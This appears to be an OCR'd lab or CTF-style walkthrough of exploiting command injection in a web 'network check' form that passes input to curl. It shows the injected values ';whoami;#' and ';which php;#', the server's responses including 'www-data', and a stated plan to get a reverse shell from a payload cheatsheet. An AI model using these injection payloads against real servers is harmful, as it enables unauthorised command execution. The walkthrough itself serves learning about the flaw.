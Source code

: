## Result: HTTP/1.1 200 OK

So it is returning first row of curl request

Chaining the command
`http://localhost;whoami`

## Network check

Check target

Command: curl -I -s -L http://localhost;whoami | grep "HTTP/"

---

## Result: HTTP/1.1 200 OK Date: Mon, 19 Aug 2024 19:13:53 GMT Server: Apache/2.4.54 (Debian) X-Powered-By: PHP/7.4.33 Access-Control-Allow-Origin: * Access-Control-Allow-Methods: * Content-Type: text/html; charset=UTF-8

Here we cant see www.data obvious that it is changed the output of the command server and that's changing whats including in grep lets try another command

`http://localhost;whoami;#`

## Network check

Check target

Command: curl -I -s -L http://localhost;whoami;# | grep "HTTP/"

---

## Result: HTTP/1.1 200 OK Date: Mon, 19 Aug 2024 19:16:55 GMT Server: Apache/2.4.54 (Debian) X-Powered-By: PHP/7.4.33 Access-Control-Allow-Origin: * Access-Control-Allow-Methods: * Content-Type: text/html; charset=UTF-8 www-data


Now it is returning www-data but we have to understand whats happening on the backend  to execute command what filtering taking place like limitation of character we can pass and hopefully we can achieve code execution
` ;whoami;#`

Next STEP is try to get a shell
payloads all the things on github
Methodology and Resources/Reverse Shell Cheatsheet.md

So to check which technology on backend is `;which php;#`
Command: curl -I -s -L ;which php;# | grep "HTTP/"

---

## Result: /usr/local/bin/php
